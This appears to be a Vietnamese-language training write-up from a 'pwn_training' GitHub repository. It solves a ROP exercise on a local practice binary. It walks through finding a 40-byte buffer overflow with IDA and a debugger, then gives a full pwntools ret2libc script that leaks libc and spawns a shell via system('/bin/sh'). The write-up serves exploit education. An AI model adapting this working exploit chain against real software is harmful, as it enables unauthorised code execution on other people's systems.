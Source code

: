 # pwn_training
## ROP

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/d6ae2cd6-0782-4e26-b492-b8c6534e6084)

-Đầu tiên mình sẽ vài IDA để check file

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/8613bfa9-f5d4-4973-8bf3-0f8110538719)

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/e9c0c132-04fe-4088-9f06-3b5ec371a97a)

-Ở đây ta thấy chương trình sẽ setbuf nhận hàm một chuỗi input do người dùng nhập vào.
-Tuy nhiên ta có thể thấy chương trình đang sử dụng printf và scanf, rất có thể sẽ bị bufferoverflow.

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/a45b6087-5ab3-4799-a203-d447cb465acc)

-Hàm Vuld là một hàm để nhận input đầu vào.
-Giờ ta sẽ debug thử chương trình.

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/e0416e80-c734-4f0c-b7b3-171bf3f7e39a)

- ta thấy rdi sẽ chứa địa chỉ của buffer.

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/87484473-f798-4cc3-ab59-e391184a10fc)

- ở đây ta sẽ có được giá trị của vararg: 0x7fffffffd5f0

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/7618cf6a-27cb-43dd-862c-e62f5b8543ee)

- sau khi check info fame ta thấy được rip at 0x7fffffffd618.
- trừ 2 giá trị cho nhau ta biết được buffer là 0x28.
- điều này có nghĩa 40 byte đầu là 40 bytes rác ta sẽ fill hết 40 bytes xong sau đó anh truyền payload cái rop của mình vào là được.

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/6fcc5868-45bf-4af3-a9f5-42049507c2af)


- mình sẽ sử dùng tool ROPgadget để lấy gadget pop rdi; ret trong libc.
  ```ROPgadget --binary /usr/lib/libc.so.6 | grep "pop rdi ; ret"```
- tới đây mình tiến hành tìm các giá trị cần thiết cho payload.
- và đây là payload hoàn chỉnh.

```py
from pwn import *

e = context.binary = ELF("./rop")
r = e.process()
libc = e.libc

r.recvuntil(b'Here is your gift: ')
libc.address = int(r.recvline()[:-1], 16) - libc.sym['puts']

print(hex(libc.address))

rdi = libc.address + 0x000000000002a3e5  # pop rdi ; ret
bin_sh = next(libc.search(b'/bin/sh'))  # rdi -> "/bin/sh"
ret = rdi + 1  # ret ( Make rsp % 0x10 == 0)
system = libc.sym['system']

pl = b'A' * 0x28  # Fill the buffer
pl += p64(rdi) + p64(bin_sh) + p64(ret) + p64(system)

r.sendline(pl)
r.interactive()

```

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/ccf68fc7-34a4-4ad6-8001-3691bbb33191)


